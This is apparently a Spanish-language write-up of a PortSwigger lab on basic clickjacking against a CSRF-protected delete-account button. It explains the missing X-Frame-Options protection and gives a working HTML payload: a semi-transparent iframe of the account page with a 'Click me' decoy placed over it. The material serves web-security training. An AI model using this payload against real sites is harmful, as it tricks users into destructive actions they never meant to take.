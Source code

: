 # Clickjacking

## Reto 1: Clickjacking básico con protección de token CSRF

Este laboratorio incluye la función de inicio de sesión y un botón para eliminar cuenta, protegido por un token CSRF. Un usuario hará clic en elementos que muestren la palabra "clic" en un sitio web falso.

Para resolver el laboratorio, crea un código HTML que enmarque la página de la cuenta y engañe al usuario para que la elimine. El laboratorio se resuelve al eliminar la cuenta.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.



```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0adf000104c2e8458060033100b60023.web-security-academy.net/my-account"></iframe>
```
